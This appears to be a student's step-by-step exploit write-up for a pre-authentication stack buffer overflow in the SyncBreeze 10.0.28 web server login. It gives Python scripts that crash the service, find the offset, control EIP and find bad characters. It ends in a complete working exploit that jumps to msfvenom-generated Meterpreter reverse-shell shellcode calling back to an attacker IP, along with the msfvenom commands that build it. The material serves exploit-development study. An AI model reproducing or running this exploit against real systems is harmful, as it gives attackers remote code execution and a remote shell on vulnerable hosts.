







# SYNC_BREEZE_10.0.28

Application runs webserver port 80 ; username field of HTTP POST ; pre-auth buffer-overflow ; haha muji normal webserver mah username - brute force , social engineering  ; application [x86 x64] sakkyo once control the EIP --> control the flow of the program ; 

What happened --> char.buffer thiyo 760 , so we sent 760 + shellcode to the application ; CONTROL THE EIP -->lets control that bad boy ; 


## CRASH THE PROGRAM !

Install SyncBreeze --> Enable web server --> Connect Windbg --> Open webserver !


WebSite -> Login page !




Proxy with Burp !




```crash.py

#!/usr/bin/python3
import socket
import sys

try:
  target = "192.168.151.10"
  port = 80

  inputBuffer = b"A" * 800

  ## BUFFER 
  payload = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + target.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(payload)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += payload

  print(f"[+] Sending {len(buffer)} bytes...")  
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((target, port))
  s.send(buffer)
  s.close()

  print("[+] HACK THE PLANET !")

except socket.error:
  print("Could not connect!")
 
```





Cool ! We got AAAA's in the EIP , that means we are on our path !


## FIND THE OFFSET

Now as we crashed the application, But we need to know the exact buffer the application can hold without crashing ! For that there are two methods , one sending 800 A's then 790 .. and so on but that's hectic and manual so we use Metasploit tool msf_pattern-create and pattern offset to find the exact hit ! 


Now we use this as our payload !

Just the filler's changed others stay same !

```
inputBuffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Bas"
```


Restart the program , attach the debugger and "g" or GO ! We find the value of EIP changed !!


Now we know the exact spot to hit !


## CONTROL THE EIP

Cool ! Now we can hit the program with the exact value which doesn't crash and now we can redirect the flow of the program. For that we need to control the EIP.... So we send 4 B's to check weathers they land on the EIP or not !!

```control_eip
#!/usr/bin/python3
import socket
import sys

try:
  target = "192.168.151.10"
  port = 80
  crash = 800
  offset = 780

  inputBuffer = b"A" * 780
  inputBuffer += b"B" * 4

  ## BUFFER 
  payload = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + target.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(payload)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += payload

  print(f"[+] Sending {len(buffer)} bytes...")  
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((target, port))
  s.send(buffer)
  s.close()

  print("[+] HACK THE PLANET !")

except socket.error:
  print("Could not connect!")

```


Cool ! We got B's on the EIP, that means we can now control the program !


## LOCATING SPACE FOR OUR SHELLCODE

Now , we can place any stack address in the EIP registers ;

Lets inspect the ESP i.e stack pointer.....[ Give space for our shellcode! ]


For that, We send 1500 bytes of buffer to check whether we have enough space for our payload inside the buffer !!


```space_

  offset = 780

  inputBuffer = b"A" * offset
  inputBuffer += b"B" * 4
  inputBuffer += b"C" * (1500 - len(inputBuffer))
  
```


Now after the crash --> Lets debugger !


--> r [ Displays all integer registers and flags. ]

1 --> dds esp L4 [ Just display top 4 memory space of esp]

2 --> dds esp+2c0 L4 [ Display last 4 memory space of esp ]



--> ? 2 - 1 [ last address of 4444 in esp - first address of 4444 in esp ]


Cool ! we got 708 bytes of free space in the buffer ! Lets fucking go.....


## CHECKING BAD CHARACTERS

A character is bad if :
1. using it changes the nature of crash ;
2. mangled in memory ;
3. NULL Bytes [0x00] used to terminate a string in C / C++ ; so we can't use those in our payload!


```python
 offset = 780

  bad_char = (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
    b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
    b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
    b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
    b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
    b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
    b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
    b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

  inputBuffer = b"A" * offset
  inputBuffer += b"B" * 4
  inputBuffer += bad_char
  inputBuffer += b"C" * (1500 - len(inputBuffer))
```

To determine Bad Chars --> we send all the possible hex-values ; repeat until we find the chars. to avoid !
1. Send all the hex char as shellcode --> crash the program ; 
2. dbg > db esp -10 L20 / L180 --> we find which char. didnt flow to the memory , remove that char. --> and send it again and again until the flow is smooth !




These are the bad chars : `0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, and 0x3D`

## REDIRECTION THE EXECUTION FLOW

We can still store our shellcode at the address pointed to by ESP, but we need a consistent way to execute that code. One solution is to leverage a JMP ESP instruction, which as the name suggests, "jumps" to the address pointed by ESP when it executes. If we can find a reliable static address that contains this instruction, we can redirect EIP to this address. Then, at the time of the crash, the JMP ESP instruction will be executed and this "indirect jump" will direct the execution flow into our shellcode.


Its simple to find the jmp esp ! One the same debugger

1. .load narly
2. !nmod

We need to find the reliable .dll from the Sync Breeze application, so all the versions are effected from our exploit. We find the libspp.dll So our target is that. Now we need the opcode of jmp esp which can be found from the msf_nasm-shell.

```
└─# msf-nasm_shell                  
nasm > jmp esp
00000000  FFE4              jmp esp
```




Now we have everything we need in our arsenal. Now Lets just craft the final Bomb.


## FINAL EXPLOIT


Generate a reverse shell.


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.217 LPORT=1337 -f python -v shellcode -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


```python
#!/usr/bin/python3
import socket
import sys

try:
  target = "192.168.151.10"
  port = 80
  crash = 800
  offset = 780

  shellcode = b"\x90" * 40
  shellcode +=  b""
  shellcode += b"\xdb\xd3\xbd\xa1\xba\xec\x9b\xd9\x74\x24\xf4"
  shellcode += b"\x5e\x31\xc9\xb1\x59\x31\x6e\x19\x03\x6e\x19"
  shellcode += b"\x83\xee\xfc\x43\x4f\x10\x73\x0c\xb0\xe9\x84"
  shellcode += b"\x72\x38\x0c\xb5\xa0\x5e\x44\xe4\x74\x14\x08"
  shellcode += b"\x05\xff\x78\xb9\x1a\x48\x36\xe7\x15\x49\x4c"
  shellcode += b"\x95\x7d\x84\x93\xf6\x42\x87\x6f\x05\x97\x67"
  shellcode += b"\x51\xc6\xea\x66\x96\x90\x81\x87\x4a\x74\xe1"
  shellcode += b"\x05\x7b\xf1\xb7\x95\x7a\xd5\xb3\xa5\x04\x50"
  shellcode += b"\x03\x51\xb9\x5b\x54\xc9\xca\x04\x74\xe8\x1f"
  shellcode += b"\x3f\x3c\xf2\x1a\x89\xc9\x3e\x6c\x3b\xcd\xb5"
  shellcode += b"\x5a\xb0\x30\x1f\x93\x06\x9e\x5e\x1b\x8b\xde"
  shellcode += b"\xa7\x9c\x74\x95\xd3\xde\x09\xae\x20\x9c\xd5"
  shellcode += b"\x3b\xb6\x06\x9d\x9c\x12\xb6\x72\x7a\xd1\xb4"
  shellcode += b"\x3f\x08\xbd\xd8\xbe\xdd\xb6\xe5\x4b\xe0\x18"
  shellcode += b"\x6c\x0f\xc7\xbc\x34\xcb\x66\xe5\x90\xba\x97"
  shellcode += b"\xf5\x7d\x62\x32\x7e\x6f\x75\x42\x7f\x6f\x7a"
  shellcode += b"\x1e\x17\xa3\xb7\xa1\xe7\xab\xc0\xd2\xd5\x74"
  shellcode += b"\x7b\x7d\x55\xfc\xa5\x7a\xec\xea\x55\x54\x56"
  shellcode += b"\x7a\xa8\x55\xa6\x52\x6f\x01\xf6\xcc\x46\x2a"
  shellcode += b"\x9d\x0c\x66\xff\x0b\x07\xf0\xc0\x63\x3a\xd9"
  shellcode += b"\xa9\x71\x45\xdc\x10\xfc\xa3\x8e\x32\xae\x7b"
  shellcode += b"\x6f\xe3\x0e\x2c\x07\xe9\x81\x13\x37\x12\x48"
  shellcode += b"\x3c\xd2\xfd\x24\x14\x4b\x67\x6d\xee\xea\x68"
  shellcode += b"\xb8\x8a\x2d\xe2\x48\x6a\xe3\x03\x39\x78\x14"
  shellcode += b"\x74\xc1\x80\xe5\x11\xc1\xea\xe1\xb3\x96\x82"
  shellcode += b"\xeb\xe2\xd0\x0c\x13\xc1\x63\x4a\xeb\x94\x55"
  shellcode += b"\x20\xda\x02\xd9\x5e\x23\xc3\xd9\x9e\x75\x89"
  shellcode += b"\xd9\xf6\x21\xe9\x8a\xe3\x2d\x24\xbf\xbf\xbb"
  shellcode += b"\xc7\xe9\x6c\x6b\xa0\x17\x4a\x5b\x6f\xe8\xb9"
  shellcode += b"\xdf\x68\x16\x3f\xc8\xd0\x7e\xbf\x48\xe1\x7e"
  shellcode += b"\xd5\x48\xb1\x16\x22\x66\x3e\xd6\xcb\xad\x17"
  shellcode += b"\x7e\x41\x20\xd5\x1f\x56\x69\xbb\x81\x57\x9e"
  shellcode += b"\x60\x32\x2d\xef\x97\xb3\xd2\xf9\xf3\xb4\xd2"
  shellcode += b"\x05\x02\x89\x04\x3c\x70\xcc\x94\x7b\x8b\x7b"
  shellcode += b"\xb8\x2a\x06\x83\xee\x2d\x03"
  
  inputBuffer = b"A" * offset
  inputBuffer += b"\x83\x0c\x09\x10" # jmp esp = 0x10090c83
  inputBuffer += shellcode


  ## BUFFER 
  payload = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + target.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(payload)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += payload

  print(f"[+] Sending {len(buffer)} bytes...")  
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((target, port))
  s.send(buffer)
  s.close()

  print("[+] HACK THE PLANET !")

except socket.error:
  print("Could not connect!")
```


Cross Chekin' in the debugger !

1. bp [jmp esp]  -- then run the program [g] -- it stops at our bp i.e the next eip
2.  then in the exploit eip = jmp esp [t]
3. which leads to nops
4. then the shellcode ! [g]





## NOTE !


Simply. Stack Buffer Overflow attack happens --> we control the eip --> the value of eip is set to our jmp esp --> which leads to our shellcode !


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.217 LPORT=1337 -b "\x00\x0A\x0D\0x25\0x26\0x2B\0x3D" -f python -v shellcode
```


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.217 LPORT=1337 -f python -v shellcode -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


 Even the process is good ! SOmetimes fucking bad-chars make your day bad...
Here Simple \0x3D i.e the capital letter ruined....